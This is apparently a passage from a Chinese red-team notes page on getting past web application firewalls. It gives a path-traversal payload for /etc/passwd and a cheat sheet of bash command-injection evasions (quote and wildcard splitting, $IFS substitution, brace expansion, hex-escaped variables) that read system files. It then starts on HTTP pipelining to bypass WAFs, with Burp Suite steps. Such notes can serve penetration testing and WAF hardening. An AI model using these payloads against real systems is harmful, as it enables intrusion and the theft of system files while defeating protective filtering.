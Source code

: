 例如连续两个 `../` 会被拦截,可以尝试采用 `./`,例如存在关键词,可以使用 `./` 分割,linux 下 `./` 会被忽略

payload: `.././.././.././.././.././.././.././.././.././.././.././etc/./passwd`

**linux变量特性**

- 利用 * 匹配和 "" 为空白的特性
    ```bash
    \l\s -l\a\h
    ""c""at /""**c""/""""**********""a""d******""
    cat /e?c/p?ss??
    cat /e??/??ss*
    l''s
    {l<s,}
    {ls,-a}

    {cat,/etc/passwd}
    cat</etc/passwd
    ```

- 使用空的 shell 变量特性
    ```bash
    cat$IFS/etc/passwd
    cat${IFS}/etc/passwd
    IFS=,;`cat<<<cat,/etc/passwd`

    c${fuckwaf}at /e${fuckwaf}tc/${fuckwaf}pass${fuckwaf}wd
    ```

- 变量控制
    ```bash
    x=$'cat\x09/etc/passwd'&&$x
    a=f;d=ag;c=l;cat$IFS$a$c$d.php
    ```

**多重编码**
- [How to hack a company by circumventing its WAF for fun and profit - part 2](https://www.redtimmy.com/web-application-hacking/how-to-hack-a-company-by-circumventing-its-waf-for-fun-and-profit-part-2/) - 通过多重编码绕过 iRules 规则

---

# 分段传输

**利用 pipline 绕过**
- **原理**

    http 协议是由 tcp 协议封装而来,当浏览器发起一个 http 请求时,浏览器先和服务器建立起连接 tcp 连接,然后发送 http 数据包(即我们用 burpsuite 截获的数据),其中包含了一个 Connection 字段,一般值为 close,apache 等容器根据这个字段决定是保持该tcp连接或是断开.当发送的内容太大,超过一个 http 包容量,需要分多次发送时,值会变成 keep-alive,即本次发起的 http 请求所建立的 tcp 连接不断开,直到所发送内容结束 Connection 为 close 为止.

- **测试**

    关闭 burp 的 Repeater 的 Content-Length 自动更新,如图所示,点击红圈的 Repeater 在下拉选项中取消 update Content-Length 选中.这一步至关重要!!!
    ![](../../../../assets/img/Security/RedTeam/安防设备/Bypass_WAF/1.png)
